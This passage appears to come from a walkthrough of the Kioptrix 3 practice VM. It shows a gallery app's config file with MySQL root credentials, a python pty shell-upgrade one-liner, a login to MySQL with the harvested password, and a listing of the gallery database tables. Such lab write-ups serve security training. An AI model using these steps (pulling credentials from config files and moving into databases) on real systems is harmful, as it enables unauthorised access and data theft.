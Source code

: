 	$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

	$GLOBALS["gallarific_mysql_server"] = "localhost";
	$GLOBALS["gallarific_mysql_database"] = "gallery";
	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

***snip***

Let's make this shell a bit more useable before poking at mysql.

python -c 'import pty;pty.spawn("/bin/sh")'

$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 50
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| gallery            |
| mysql              |
+--------------------+
3 rows in set (0.01 sec)

mysql>

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
7 rows in set (0.00 sec)
